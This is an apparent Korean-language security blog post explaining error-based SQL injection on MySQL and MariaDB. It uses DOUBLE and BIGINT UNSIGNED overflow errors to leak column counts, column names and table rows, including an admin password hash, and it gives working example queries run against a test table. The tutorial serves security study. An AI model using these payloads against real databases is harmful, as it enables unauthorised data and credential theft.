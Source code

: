 ```yaml
---
layout: post
title: Another Error-based SQL Injection on MySQL
comments: true
---
```


RDot.org에서 우연찮게 발견한 글로 의도적으로 UNSIGNED BIGINT의 범위를 넘김으로써 Error를 출력하는 방법이 나와 있었다. Error-based의 일종일 것이라고 생각 했지만 더 읽어보면 information_schema에서 데이터를 가져오는것이 아닌 방법으로 column명을 알아 낼 수 있었다.

1E308은 DOUBLE, 18446744073709551610는 UNSINGED BIGINT 에러를 발생시킬수 있는 수라고 생각하자.

아래는 컬럼의 갯수를 알아내는 방법이다.
```
mysql> SELECT (SELECT * FROM member)in(1);
ERROR 1241 (21000): Operand should contain 3 column(s)
```

아래는 특정 테이블의 컬럼명을 가져오는 방법이다.
```
mysql> SELECT 2 * IF((SELECT * FROM(SELECT * FROM member)s)>(SELECT * FROM member LIMIT 1),1E308,1E308);
ERROR 1690 (22003): DOUBLE value is out of range in '(2 * if(((select `s`.`idx`,`s`.`username`,`s`.`password` from (select `test`.`member`.`idx` AS `idx`,`test`.`member`.`username` AS `username`,`test`.`member`.`password` AS `password` from `test`.`member`) `s`) > (select `test`.`member`.`idx`,`test`.`member`.`username`,`test`.`member`.`password` from `test`.`member` limit 1)),1E308,1E308))'
```

아래는 테이블의 내용을 가져오는 방법이다.
```
mysql> SELECT 2 * IF((SELECT * FROM(SELECT * FROM member LIMIT 1)s)>(SELECT * FROM member LIMIT 1),1E308,1E308);
ERROR 1690 (22003): DOUBLE value is out of range in '(2 * if(((select '1','admin','c9c54cb3c5cb3f58ba284531698826eebb620574' from dual) > (select `test`.`member`.`idx`,`test`.`member`.`username`,`test`.`member`.`password` from `test`.`member` limit 1)),1E308,1E308))'
```


```
/* Max length of a error message. Should be kept in sync with MYSQL_ERRMSG_SIZE. */
#define ERRMSGSIZE      (512)
```
위 코드를 보면 알 수있듯 이 방법에서 주의 해야할 방법은 Error길이가 512가 최대라는 것이다. 그 이상 넘기는 메세지에 대해서는 볼 수 없기 때문이다.

아래는 기존의 MySQL이 아닌 MariaDB에서 위 방법을 했을 경우 _select #_라고 나와 버리는 것 때문에 아래처럼 다른 방법을 써줘야 한다.
```
mysql> SELECT 2*(IF((SELECT * FROM (SELECT (version()))s), 18446744073709551610, 18446744073709551610));
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(2 * if((select #),18446744073709551610,18446744073709551610))'
mysql> SELECT !x-~0 FROM(SELECT version()x)y;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('5.5-MariaDB')) - ~(0))'
```

## Reference
* <https://rdot.org/forum/showthread.php?t=3167>